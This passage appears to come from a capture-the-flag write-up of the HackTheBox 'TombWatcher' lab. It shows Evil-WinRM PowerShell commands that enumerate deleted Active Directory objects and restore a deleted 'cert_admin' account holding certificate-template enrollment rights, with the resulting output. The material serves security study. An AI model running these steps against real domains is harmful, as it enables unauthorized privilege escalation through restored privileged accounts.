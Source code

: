 ```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```
![1](/assets/img/favicons/tombwatcher-htb/11.png)

#### Findings

- The deleted account name is **`cert_admin`** (we see multiple tombstones with different GUIDs).
- Those are **tombstone objects** → AD keeps them around (by default 180 days) before garbage collecting.
- That matches BloodHound: the orphaned SID (`…-1111`) belonged to `cert_admin`.

#### Why this matters

- `cert_admin` had **Enroll rights** on the **WebServer certificate template**.
- Since the user is deleted, those rights are **dangling** (no one can use them directly).
- But we now know the **deleted account’s name and purpose** and it was likely an account specifically created for **Certificate Services administration**.

```powershell
*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity "c1f1f0fe-df9c-494c-bf05-0679e181b358"
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADUser -Identity cert_admin

DistinguishedName : CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Enabled           : True
GivenName         : cert_admin
Name              : cert_admin
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358
SamAccountName    : cert_admin
SID               : S-1-5-21-1392491010-1358638721-2126982587-1110
Surname           : cert_admin
UserPrincipalName :
```
